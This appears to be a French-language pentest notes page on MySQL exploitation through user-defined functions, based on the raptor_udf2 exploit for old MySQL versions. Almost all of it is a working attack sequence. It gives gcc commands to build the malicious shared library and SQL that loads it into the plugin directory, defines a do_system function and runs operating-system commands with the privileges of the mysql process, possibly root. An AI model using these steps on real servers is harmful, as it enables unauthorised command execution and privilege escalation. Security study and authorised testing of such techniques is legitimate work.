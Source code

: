 ```yaml
---
title: MySQL
permalink: /MySQL/
---
```


# MySQL

Exploitation
------------

### User Defined functions

**Note**: cette partie est basée sur <https://www.exploit-db.com/exploits/1518/> et impacte les versions de MySQL &lt; 4.1.10a et MySQL &lt; 4.0.24

Dans un premier temps on compile la librairie dynamique utilisée:

``` bash
gcc -g -c raptor_udf2.c
gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Ensuite on crée la fonction MySQL qui l'utilisera. Ceci permet d'executer des commandes avec les droits de l'utilisateur qui contrôle le processus mysql (avec un peu de chance c'est root):

``` bash
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
```

